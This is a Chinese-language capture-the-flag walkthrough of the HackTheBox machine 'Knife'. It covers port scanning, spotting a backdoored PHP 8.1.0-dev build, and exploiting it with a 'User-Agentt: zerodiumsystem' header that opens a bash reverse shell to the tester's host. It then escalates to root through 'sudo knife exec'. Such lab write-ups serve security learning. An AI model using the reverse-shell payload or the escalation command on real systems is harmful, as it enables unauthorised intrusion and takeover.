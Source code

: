 # HackTheBox-Knife

  
  
&lt;!--more--&gt;  
使用`nmap`进行扫描  
```bash  
sudo nmap --min-rate 10000 -sS -Pn -sV 10.129.211.145  
  
Nmap scan report for 10.129.211.145  
Host is up (0.15s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT   STATE    SERVICE VERSION  
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
53/tcp filtered domain  
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds  
```  
开启了`22`端口和`80`端口，访问`80`端口  
在其返回包看到`PHP`版本信息  
```http  
HTTP/1.1 200 OK  
Date: Sat, 13 Apr 2024 10:07:00 GMT  
Server: Apache/2.4.41 (Ubuntu)  
X-Powered-By: PHP/8.1.0-dev  
Vary: Accept-Encoding  
Content-Length: 5815  
Connection: close  
Content-Type: text/html; charset=UTF-8  
```  
此版本是存在后门，可以直接进行`RCE`  
直接反弹一个`shell`到本地  
`User-Agentt:zerodiumsystem(&#34;/bin/bash -c &#39;bash -i &gt;&amp; /dev/tcp/10.10.16.4/8888 0&gt;&amp;1&#39;&#34;);`  
获得`user.txt`的`flag`  
```bash  
james@knife:~$ cat user.txt  
cat user.txt  
8f76f62dae4f23ad7c61094fff67a86d  
```  
继续进行提权  
`sudo -l`进行查看`james`用户的权限  
```bash  
Matching Defaults entries for james on knife:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User james may run the following commands on knife:  
    (root) NOPASSWD: /usr/bin/knife  
```  
可以无需密码以`root`权限执行`/usr/bin/knife`命令  
利用`python`获取一个交互式`shell`  
`python3 -c &#34;__import__(&#39;pty&#39;).spawn(&#39;/bin/bash&#39;)&#34;`  
利用`knife`进行提权  
`sudo /usr/bin/knife exec -E &#39;exec &#34;/bin/sh&#34;&#39;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131823505.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-knife/  

